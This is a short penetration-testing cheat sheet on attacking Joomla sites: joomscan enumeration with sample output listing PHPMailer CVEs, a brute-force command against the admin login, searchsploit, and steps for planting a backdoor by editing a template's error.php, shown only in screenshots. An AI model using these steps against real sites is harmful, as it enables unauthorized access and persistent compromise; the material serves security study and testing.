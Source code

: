 ```yaml
---
description: Attacking Joomla CMS
---
```


# Joomla

### Enumeration

We can using **joomscan** to enumerate Joomla CMS.

{% code overflow="wrap" %}
```bash
joomscan  --url http://target.com -ec -r
```
{% endcode %}

Example output:

```bash
   ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://target.com ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.10.0

[+] Core Joomla Vulnerability
[++] PHPMailer Remote Code Execution Vulnerability
CVE : CVE-2016-10033
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
https://github.com/opsxcq/exploit-CVE-2016-10033
EDB : https://www.exploit-db.com/exploits/40969/

PPHPMailer Incomplete Fix Remote Code Execution Vulnerability
CVE : CVE-2016-10045
https://www.rapid7.com/db/modules/exploit/multi/http/phpmailer_arg_injection
EDB : https://www.exploit-db.com/exploits/40969/


[+] Checking Directory Listing
[++] directory has directory listing : 
http://target.com/administrator/components
http://target.com/administrator/modules
http://target.com/administrator/templates
http://target.com/images/banners
......
```

### Brute Force/Dictionary Attack

* [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://target.com -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}

### Exploit Search

{% code overflow="wrap" %}
```bash
searchsploit "Joomla" -www
```
{% endcode %}

### Backdooring Joomla

Login with admin credentials. And go to Templates.

{% code overflow="wrap" %}
```
http://target.com/administrator/index.php?option=com_templates&view=templates
```
{% endcode %}

Edit one of the template file. Example: `error.php` at `beez3`.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjfERNq0H6zfD_9ggzmQBbV9Naan88yGjRB6pr4ZVTfKsfV8Td2liTainV0RfpJRq3lkjgEPxPR4_6Gl9xeBoOcVXHp6toSFEhCjSiFx7SstWJUxyvJMjeuVHxsInU6FFIiJQ5NRgHCM_g4A-WL178rEt1Kjk1PAfGsqVlSzv-MuFeAJQg58GlqBYNVy5U/s1452/edit-joomla-template.png" alt=""><figcaption><p>Edit Joomla Templates</p></figcaption></figure>

And then, go to `target.com/templates/beez3/error.php` to access your backdoor.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgqIx5AFm2pFhgMUw70EZloHTmymdrvwU0YXsiRTPV5c_9vYbAsRv76IlRRVQAVO7ic1YMV7uChfbda2VwDfmGsRX9QEZPVHs9DiTcj2ReND38Mc7gKYIjiNO_VJIMHFb_7tNN907yrdBKg_HkYaolo80QZ1S73GZPN57-qTg9HhJ0UKRvRGqE7o7PSPbI/s1457/backdoor-joomla.png" alt=""><figcaption><p>Joomla Backdoor</p></figcaption></figure>

Update soon....

